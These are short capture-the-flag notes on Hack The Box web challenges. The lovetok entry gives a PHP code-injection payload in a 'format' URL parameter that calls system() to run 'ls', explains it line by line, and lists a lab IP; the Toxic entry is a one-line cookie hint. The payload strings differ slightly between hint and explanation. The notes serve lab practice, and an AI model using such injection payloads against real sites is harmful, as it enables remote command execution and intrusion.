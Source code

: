 **01 web_lovetok:**
    Link: https://app.hackthebox.com/challenges/lovetok
    Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
    Explanation: 
    A. http://178.62.11.21:30505/: This is the base URL.
    B. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
    C. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
    D. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
    E. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
